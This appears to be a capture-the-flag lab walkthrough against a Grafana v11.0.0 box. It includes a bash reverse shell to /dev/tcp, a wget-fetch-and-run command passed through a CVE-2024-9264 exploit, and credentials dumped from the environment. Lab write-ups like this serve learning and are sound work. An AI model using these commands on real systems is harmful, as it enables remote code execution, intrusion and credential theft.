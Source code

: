 # SSH
```
┌──(root㉿kali)-[/usr/share/wordlists/seclists/Discovery/Web-Content]
└─# ssh admin@10.10.11.68
The authenticity of host '10.10.11.68 (10.10.11.68)' can't be established.
ED25519 key fingerprint is SHA256:iDzE/TIlpufckTmVF0INRVDXUEu/k2y3KbqA/NDvRXw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.68' (ED25519) to the list of known hosts.
admin@10.10.11.68's password: 
Permission denied, please try again.
```
Provided creds don't seem to work against SSH

# Working Steps
- Added grafana to etc/hosts
- Provided creds work in Grafana portal
- Page source is saying Grafana v11.0.0
- CVE: `https://github.com/nollium/CVE-2024-9264`
- Made virtual environment:
```
# Create a virtual environment
python3 -m venv venv

# Activate the virtual environment
source venv/bin/activate
```
- Installed `requirements.txt` with `pip install -r requirements.txt` in venv
-  Made a basic reverse shell file:
```
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.5/4444 0>&1`
```
- Started serving file on port 8000 with: `python3 -m http.server 8000`
- Started listening for reverse shell with: `nc -lvnp 4444`
- Used exploit with `python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "wget http://10.10.14.5:8000/basic_bash_reverse_shell_p4444.sh -O /tmp/basic_bash_reverse_shell_p4444.sh && chmod +x /tmp/basic_bash_reverse_shell_p4444.sh && /tmp/basic_bash_reverse_shell_p4444.sh" http://grafana.planning.htb`
- Reverse shell allowed me to find creds in /var/lib/grafana/ by running `env` in that path:
```
root@7ce659d667d7:/var/lib/grafana# env
env
AWS_AUTH_SESSION_DURATION=15m
HOSTNAME=7ce659d667d7
PWD=/var/lib/grafana
AWS_AUTH_AssumeRoleEnabled=true
GF_PATHS_HOME=/usr/share/grafana
AWS_CW_LIST_METRICS_PAGE_LIMIT=500
HOME=/usr/share/grafana
AWS_AUTH_EXTERNAL_ID=
SHLVL=2
GF_PATHS_PROVISIONING=/etc/grafana/provisioning
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
GF_SECURITY_ADMIN_USER=enzo
GF_PATHS_DATA=/var/lib/grafana
GF_PATHS_LOGS=/var/log/grafana
PATH=/usr/local/bin:/usr/share/grafana/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
AWS_AUTH_AllowedAuthProviders=default,keys,credentials
GF_PATHS_PLUGINS=/var/lib/grafana/plugins
GF_PATHS_CONFIG=/etc/grafana/grafana.ini
```